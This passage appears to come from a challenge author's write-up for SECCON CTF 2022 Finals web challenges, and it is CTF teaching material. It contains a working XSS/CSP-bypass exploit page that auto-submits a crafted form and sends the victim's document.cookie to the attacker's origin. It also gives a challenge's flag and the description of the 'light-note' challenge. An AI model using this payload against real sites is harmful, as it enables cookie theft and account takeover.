 ```html title="index.html"
<body>
  <script>
    const submit = (url, { minifiedCode, originalLength, minifiedLength }) => {
      const innerHtml = `
        <form action="${url}" method="post" target="_blank">
          <input name="minifiedCode" value="${minifiedCode}">
          <input name="originalLength" value="${originalLength}">
          <input name="minifiedLength" value="${minifiedLength}">
        </form>
      `;
      document.body.innerHTML += innerHtml;
      document.forms[document.forms.length - 1].submit();
    };

    const exploit = (url, xss) => {
      const evil = ";`*/<" + "/script>`/*";
      const len = 93;
      submit(url, {
        minifiedCode: (xss + evil).padStart(len, " "),
        originalLength: 0,
        minifiedLength: -304 + len,
      });
    };

    const baseUrl = "http://web:3000";
    exploit(
      `${baseUrl}/post#${encodeURIComponent(location.origin + "/print?cookie=")}`,
      "location = `${decodeURIComponent(location.hash.slice(1))}${document.cookie}`"
    );
  </script>
</body>
```

### Flag

```
SECCON{csp_bypa55_is_a_type_0f_puzzle_games_for_h4ckerS}
```

## [web 300] light-note

- International: 0 solved / 10
- Domestic: 0 solved / 12
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202302_SECCON_CTF_2022_Finals/web/light-note

Description:

> I created a blazing fast note application!
>
> - `https://light-note.{int,dom}.seccon.games`


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell